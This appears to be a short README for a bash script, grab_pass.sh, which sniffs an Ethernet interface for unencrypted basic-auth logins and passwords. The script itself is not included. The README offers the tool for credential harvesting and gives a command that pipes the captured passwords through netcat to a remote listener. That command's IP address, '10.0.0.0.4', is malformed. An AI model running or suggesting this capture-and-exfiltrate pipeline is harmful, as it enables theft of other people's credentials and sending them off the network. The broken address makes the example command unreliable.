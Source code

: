# grab_pass.sh

This is a simple script that sniffs for unencrypted basic auth logins/passwords.  The only option is the ethernet device.  Example with eth0:

`bash grab_pass.sh eth0`

Now just sit back and wait.  

If you want to keep those passwords, you can always tee it to a file:

`bash grab_pass.sh eth0 | tee logins.txt`

Or you could always setup netcat to listen on a server somewhere, then pipe the results to netcat.  For example, if you had a listener on 10.0.0.4 running on port 5555, you could just run this:

`bash grab_pass.sh eth0 | nc 10.0.0.0.4 5555`
